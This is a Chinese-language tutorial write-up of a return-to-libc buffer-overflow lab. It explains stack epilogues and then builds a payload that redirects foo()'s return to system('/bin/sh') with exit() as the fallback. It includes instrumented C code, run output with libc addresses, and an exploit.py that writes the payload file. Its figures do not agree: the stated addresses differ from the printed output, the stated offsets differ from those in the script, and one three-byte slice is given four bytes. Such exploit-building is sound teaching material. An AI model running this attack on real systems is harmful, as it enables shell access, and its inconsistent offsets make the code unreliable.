下图所示为后记的每条指令执行前后栈的情况。这些指令总体上是与函数的 prologue 指令相反的。epilogue 的第一条指令把 %esp 移到帧指针指向的位置，实际上释放了之前为局部变量开辟的栈空间。epilogue 的第二条指令将前帧指针赋值给 %ebp，这用来恢复调用者函数的帧指针。epilogue 的最后一条指令 ret 从栈中弹出返回地址，然后跳转到该地址。IA-32 体系结构处理器有 2 条内设指令：enter 和 leave 指令。**<font color="red">enter 指令执行函数的 prologue，leave 指令执行 epilogue 的前 2 条指令</font>**。

<div align="center">
    
</div>

### 5.任务 C

代码清单 2.1 中的 **`foo()`** 函数存在缓冲区溢出漏洞，因此可以利用溢出将返回地址修改为 **`system()`** 函数的地址。下图 (a)~(c) 反映了 foo() 函数调用 system() 函数过程中 %esp 寄存器值的变化。

下图 (a) 是执行完 strcpy 实现了缓冲区溢出之后，但是还没有从 foo 函数返回的状态，也就是还没有执行 foo 函数的 epilogue，此时 %ebp 寄存器指向的位置被 0xaa 覆盖；

图（b）是执行完 foo 函数的 epilogue 后的状态，此时 %ebp 寄存器指向的位置并不重要，因为它即将被 %esp 的值所替代；图（c）是执行完 system 函数 prologue 之后的状态，注意一般执行函数 call 指令跳转，%esp 要减少 4 将下一条指令的值保存到栈中，但是这里是从 foo 函数返回，跳转就是 ret 指令直接将返回地址的值写入到 %eip 寄存器中实现跳转，不需要减去 4。接着执行 system 函数的 prologue，使得 %esp 的值减少 4，**并且 %ebp 被设置为 %esp 的值，这就是 %ebp 最终指向的地方。因此 system 函数的参数只需要保存到当前 %ebp+8 的位置即可**。

<div align="center" style="display: flex; justify-content: center">
    
</div>

需要注意的是，图（c）中 **`%ebp+4`** 的地方应该被视为 **`system()`** 函数的返回地址，如果在这个位置随便存放一个数值，当 **`system()`** 函数返回时 (**`/bin/sh`** 程序结束后才会返回)，程序很可能会崩溃。**<font color="red">更好的办法是将 **`exit()`** 函数的地址放在那里，这样当 **`system()`** 函数返回时，它将跳转到 **`exit()`** 函数，从而完美终止程序</font>**。

### 6.构建恶意输入

为了构建恶意输入，我们需要获取到上图中 1、2、3 个位置距离缓冲区起始位置的偏移量，位置 1 用来保存 **`system()`** 函数的参数，也就是 **`/bin/sh`** 字符串的地址；位置 2 用来保存 **`exit()`** 函数的地址；位置 3 用来保存 **`system()`** 函数的地址。因此，我们可以通过使用 printf 打印代码清单 2.1 中的 **`foo()`** 函数的 %ebp 寄存器的值。foo 函数修改如下：

```c{.line-numbers}
int foo(char* str) {
	unsigned long ebp_value;
    __asm__ volatile ("movl %%ebp, %0" : "=r" (ebp_value));

    char buffer[100];
    printf("%p %lx\n", buffer, ebp_value);
    printf("%p %p\n", &system, &exit);
    /* the following statement has a buffer overflow problem. */
    strcpy(buffer, str);
    return 1;
}
```

最后运行的结果如下所示，因此 buffer 的起始地址为 0xffffcec8，%ebp 寄存器的值为 0xffffcf38，两者之差为 116。因此位置 1、2、3 的偏移量是 128、124、120。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ ./stack
0xffffced4 0xffffcf48
system: 0xf7dc4cd0 exit: 0xf7db71f0
段错误
```

接下来获取 32 位的 **`system()`** 函数和 **`exit()`** 函数的地址分别为：0xf7dc4cd0、0xf7db71f0。再次使用 **`gcc envaddr.c -o env22 -m32`** 命令编译运行 envaddr.c 文件中的代码，程序名称为 env22 是因为环境变量的地址会受到程序名称长度的影响，因此需要将其控制和 stack 名称长度保持一致，运行可以得到 /bin/sh 字符串的地址：**`0xffffd3a9`**。因此可以编写如下的 exploit.py 文件，构建恶意代码：

```python{.line-numbers}
import sys

# 给 content 填上非零值
content = bytearray(0xaa for i in range(300))
# /bin/sh 的地址
a3 = 0xffffd3a9
content[124:127] = (a3).to_bytes(4, byteorder='little')
# exit() 函数的地址
a2 = 0xf7db71f0
content[120:124] = (a2).to_bytes(4, byteorder='little')
# system() 函数的地址
a1 = 0xf7dc4cd0
content[116:120] = (a1).to_bytes(4, byteorder='little')

file = open("badfile", "wb")
file.write(content)
file.close()
```

